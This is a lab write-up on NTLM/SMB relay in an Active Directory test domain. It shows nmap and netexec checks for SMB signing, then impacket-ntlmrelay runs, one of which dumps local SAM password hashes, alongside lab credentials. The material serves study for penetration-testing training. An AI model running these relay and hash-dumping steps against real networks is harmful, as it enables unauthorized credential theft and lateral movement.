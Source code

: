 # SMB Relay Attack

<div class="hidden">
    keywords: active directory, smb, NTLM relay
</div>

## Infrastructure

- dc01: 10.10.1.200
- ws01: 10.10.1.201
- ws02: 10.10.1.202
- attacker: 10.10.1.102

## Pre-requisite

### SMB Signing

- using `nmap`
    ```console
    $ nmap -vvv -p 445 -Pn --script smb2-security-mode.nse -oA nmap/smb 10.10.1.200 10.10.1.201 10.10.1.202
    # Nmap 7.93 scan initiated Fri Dec 15 16:11:55 2023 as: nmap -vvv -p 445 -Pn --script smb2-security-mode.nse -oA nmap/smb 10.10.1.200 10.10.1.201 10.10.1.202
    Nmap scan report for dc01 (10.10.1.200)
    Host is up, received user-set (0.0011s latency).
    Scanned at 2023-12-15 16:11:59 +08 for 0s

    PORT    STATE SERVICE      REASON
    445/tcp open  microsoft-ds syn-ack

    Host script results:
    | smb2-security-mode:
    |   311:
    |_    Message signing enabled and required

    Nmap scan report for ws01 (10.10.1.201)
    Host is up, received user-set (0.00090s latency).
    Scanned at 2023-12-15 16:11:59 +08 for 0s

    PORT    STATE SERVICE      REASON
    445/tcp open  microsoft-ds syn-ack

    Host script results:
    | smb2-security-mode:
    |   311:
    |_    Message signing enabled but not required

    Nmap scan report for ws02 (10.10.1.202)
    Host is up, received user-set (0.00096s latency).
    Scanned at 2023-12-15 16:11:59 +08 for 0s

    PORT    STATE SERVICE      REASON
    445/tcp open  microsoft-ds syn-ack

    Host script results:
    | smb2-security-mode:
    |   311:
    |_    Message signing enabled but not required

    Read data files from: /usr/bin/../share/nmap
    # Nmap done at Fri Dec 15 16:11:59 2023 -- 3 IP addresses (3 hosts up) scanned in 3.61 seconds
    ```

    - Domain controller has `Message signing enabled and required`
    - Both workstations have `Message signing enabled but not required` (vulnerable to SMB relay attack)

- using `netexec`
    ```console
    $ netexec smb 10.10.1.200 10.10.1.201 10.10.1.202 --gen-relay-list smb-signing-false.txt
    SMB         10.10.1.201     445    WS01             [*] Windows 10.0 Build 17763 x64 (name:WS01) (domain:oscp.lab) (signing:False) (SMBv1:False)
    SMB         10.10.1.202     445    WS02             [*] Windows 10.0 Build 17763 x64 (name:WS02) (domain:oscp.lab) (signing:False) (SMBv1:False)
    SMB         10.10.1.200     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:oscp.lab) (signing:True) (SMBv1:False)
    ```

    - Domain controller has `signing:True`
    - Both workstations have `signing:False` (vulnerable to SMB relay attack)

### Administrator Privilege

When relaying to target machine `X` from machine `Y` as a user `domain\john`,
the user needs to have administrator privilege on the target machine `X` for
this attack to work.

In the setup environment, `oscp\alice` is in the `Administrators` group on
both `ws01` and `ws02`. Thus, we could relay from anywhere (except for the
target machine itself) to either `ws01` or `ws02` as `oscp\alice`. On the
other hand, `oscp\bob` only has admin privilege on `ws02`. Hence, we could
only relay from anywhere (`dc01`, `ws01`) to `ws02` as `oscp\bob`.

## Example

```admonish note
If impacket is installed on a virtual environment and needs to execute with `sudo`
~~~sh
sudo --preserve-env=PATH env impacket-ntlmrelay ...
~~~
```

### Relaying from `ws01` to `ws02` as `oscp\alice` (Succeed)

#### Attacker

```console
$ impacket-ntlmrelay -t 10.10.1.202 -smb2support
[...]

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.1.201, attacking target smb://10.10.1.202
[*] Authenticating against smb://10.10.1.202 as OSCP/ALICE SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x056273c5da163bf69d211acdca6423fc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5f91be10619e258821be997884b135f7:::
bob:1002:aad3b435b51404eeaad3b435b51404ee:217e50203a5aba59cefa863c724bf61b:::
[*] Done dumping SAM hashes for host: 10.10.1.202
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

#### Victim

```console
C:\Users\Public> hostname
ws01

C:\Users\Public> net use \\10.10.1.102 /user:oscp\alice Passw0rd!
```

### Relaying from `ws02` to `ws01` as `oscp\bob` (Failed)

#### Attacker

```console
$ impacket-ntlmrelay -t 10.10.1.201 -smb2support
[...]

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.1.202, attacking target smb://10.10.1.201
[*] Authenticating against smb://10.10.1.201 as OSCP/BOB SUCCEED
[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
```

#### Victim

```console
C:\Users\Public> hostname
ws02

C:\Users\Public> net use \\10.10.1.102 /user:oscp\bob Passw0rd!
```
